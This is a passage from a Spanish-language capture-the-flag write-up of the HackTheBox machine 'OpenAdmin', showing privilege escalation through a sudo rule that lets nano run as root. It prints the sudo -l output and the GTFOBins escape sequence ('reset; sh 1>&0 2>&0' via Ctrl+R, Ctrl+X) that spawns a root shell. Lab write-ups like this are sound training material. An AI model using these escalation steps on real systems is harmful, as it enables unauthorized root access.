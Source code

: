 {% hint style="info" %}
En informática, nano (oficialmente GNU nano) es un editor de texto para sistemas Unix basado en curses. Es un clon de Pico, el editor del cliente de correo electrónico Pine. nano trata de emular la funcionalidad y la interfaz de fácil manejo de Pico, pero sin la integración con Pine.
{% endhint %}

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

A través de la herramienta de [`searchbins`](https://github.com/r1vs3c/searchbins) nos encontramos la manera de explotar este binario como `sudo` y lograr obtener una Shell como usuario `root`.

```bash
❯ searchbins -b nano -f sudo

[+] Binary: nano

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/nano/#sudo]

	| sudo nano
	| ^R^X
	| reset; sh 1>&0 2>&0
```

Ejecutaremos el comando `sudo /bin/nano /opt/priv` para editar el archivo con permisos de `sudo`.

Una vez estemos dentro del archivo con el editor `nano`, para poder obtener una shell como `root`, deberemos de presionar `Ctrl+R` para acceder al apartado de `Read file`.

```bash
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

<figure><img src="../../.gitbook/assets/5438_vmware_KmrP2NgF9u.png" alt=""><figcaption></figcaption></figure>

Una vez estemos en el modo de `Read File`, presionaremos la combinación de `Ctrl+X` para acceder a la opción de `Execute Command`.

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Al seleccionar esta nueva opción, comprobamos que nos permite realizar una ejecución de comandos. Esto es debido que `nano` tiene implementado una manera para lograr ejecutar un comando en el sistema y que el `output` del resultado del comando se almacene en nuestro archivo en el que nos encontramos trabajando.
